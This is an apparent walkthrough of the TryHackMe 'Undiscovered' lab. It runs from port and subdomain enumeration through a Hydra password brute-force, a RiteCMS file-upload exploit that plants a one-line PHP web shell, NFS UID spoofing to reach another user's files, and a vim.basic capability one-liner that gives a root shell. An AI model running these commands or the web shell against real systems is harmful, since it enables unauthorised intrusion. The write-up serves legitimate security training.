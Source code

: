 # 45 - Undiscovered (NFS, capabilities\[vim.basic exploitation])

Room Link --> [https://tryhackme.com/room/undiscoveredup](https://tryhackme.com/room/undiscoveredup)

Please consider adding `undiscovered.thm` in /etc/hosts

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -Pn -n -vv undiscovered.thm -sV -p- -T4

PORT      STATE SERVICE  REASON  VERSION
22/tcp    open  ssh      syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10
80/tcp    open  http     syn-ack Apache httpd 2.4.18
111/tcp   open  rpcbind  syn-ack 2-4 (RPC #100000)
2049/tcp  open  nfs      syn-ack 2-4 (RPC #100003)
34636/tcp open  nlockmgr syn-ack 1-4 (RPC #100021)
```
{% endcode %}

Didn't find anything in NFS or RPCBind port, even Gobuster enumeration.

So i went ahead to do a subdomain enumeration with wfuzz.

{% code overflow="wrap" lineNumbers="true" %}
```bash
wfuzz -c -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://undiscovered.thm" -H "Host: FUZZ.undiscovered.thm" -t 42 --sc 200

# output
http://deliver.undiscovered.thm
```
{% endcode %}

<figure><img src=".gitbook/assets/image (318).png" alt=""><figcaption></figcaption></figure>

Found an authenticated RCE for the RiteCMS.

#### Gobuster enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://deliver.undiscovered.thm/ -w /usr/share/dirb/wordlists/common.txt -t 500 --no-error -b 404,404,500,403,502 -x txt,php,db,sql,html

/cms
/data
/files
/index.php
/index.php
/js
/LICENSE
/media
/README.txt
/templates
```
{% endcode %}

`/data`&#x20;

<figure><img src=".gitbook/assets/image (319).png" alt=""><figcaption></figcaption></figure>

In the `mysql.initial.sql and sqlite.user.initial.sql` file we found credentials for admin user:

{% code overflow="wrap" lineNumbers="true" %}
```bash
INSERT INTO phpsqlitecms_userdata VALUES(1, 'admin', 1, '75470d05abd21fb5e84e735d2bc595e2f7ecc5c7a5e98ad0d7', 1230764400, 0);
# cant crack the password. so lets bruteforce the page since we know username as admin with hydra
```
{% endcode %}

#### Hydra.

`hydra -l admin -P /usr/share/wordlists/rockyou.txt -t64 -m '/cms/index.php:username=^USER^&userpw=^PASS^:User unknown or password wrong' deliver.undiscovered.thm http-post-form` .

{% code overflow="wrap" %}
```bash
[80][http-post-form] host: deliver.undiscovered.thm   login: admin   password: liverpool
```
{% endcode %}

And we got the password.

<figure><img src=".gitbook/assets/image (320).png" alt=""><figcaption></figcaption></figure>

Using this [exploit](https://www.exploit-db.com/exploits/48636)

{% code overflow="wrap" %}
```
1- Go to following url. >> http://(HOST)/cms/
3- Go to "Filemanager" and press "Upload file" button.
4- Choose your php web shell script and upload it. 
      (
PHP Web Shell Code == <?php system($_GET['cmd']); ?>

5- You can find uploaded file there. >> http://(HOST)/media/(FILE-NAME).php
6- We can execute a command now. >> http://(HOST)/media/(FILE-NAME).php?cmd=id
```
{% endcode %}

And i got shell:

<figure><img src=".gitbook/assets/image (321).png" alt=""><figcaption></figcaption></figure>

### PrivEsc to WIlliam

#### NFS exploitatiion

Uploaded `linEnum.sh` to the victim to enumerate and found an NFS share.

<figure><img src=".gitbook/assets/image (323).png" alt=""><figcaption></figcaption></figure>

But there is `root_squash` feature enabled meaning even if we mount the file share we wont have full root permissions over it. For this we have to create a user with the same UID and GID as williams in order to access this share.

This is the detail for williams from /etc/passwd: `william:3003:3003::/home/william:/bin/bash` .

We have to create called william with same UID on our kali.

```bash
useradd -u 3003 william
# make sure to:
- create a dir for william in the /home dir.
- change his shell to /bin/bash.

# Mount his homefolder
mount -t nfs 10.10.223.42:/home/william /home/william

# switch to william.
su wiliam
```

now we can access his files.

<figure><img src=".gitbook/assets/image (324).png" alt=""><figcaption></figcaption></figure>

Change the permission of `/home/william` to 777 so we can have full acess from the `www-data` user account.

<figure><img src=".gitbook/assets/image (327).png" alt=""><figcaption></figcaption></figure>

Now we have access:

<figure><img src=".gitbook/assets/image (326).png" alt=""><figcaption></figcaption></figure>

We can also see that the owner for `script` file changed from `nodoby` to `leonard` .

The `script` file when run against strings, we see it also execute `cat` ie, `strings script`.

<figure><img src=".gitbook/assets/image (328).png" alt=""><figcaption></figcaption></figure>

So since it is running a `leonard` user, we can cat his `ssh private keys` .

<figure><img src=".gitbook/assets/image (329).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (330).png" alt=""><figcaption></figcaption></figure>

### &#x20;Priv Esc to root

I saw that vim had capabilities set when i wan enumerating with linENUM.sh earlier.

> getcap -r / 2>/dev/null

<figure><img src="https://miro.medium.com/v2/resize:fit:471/1*C4J4S45cYahdw4v2MpCvCg.png" alt="" height="121" width="685"><figcaption><p>getcap</p></figcaption></figure>

Well so **vim.basic** has the cap of **setuid.** Reference to **gtfobins**, exec this command to get root shell:

Oh wait, it’s not working! Let’s try again with **py3(python3):**

> /usr/bin/vim.basic -c ‘:py3 import os; os.setuid(0); os.execl(“/bin/sh”, “sh”, “-c”, “reset; exec sh”)’

<figure><img src="https://miro.medium.com/v2/resize:fit:140/1*SkkmzJ3HkBcPt3I_EzUmIA.png" alt="" height="105" width="203"><figcaption><p>root shell</p></figcaption></figure>

Done!
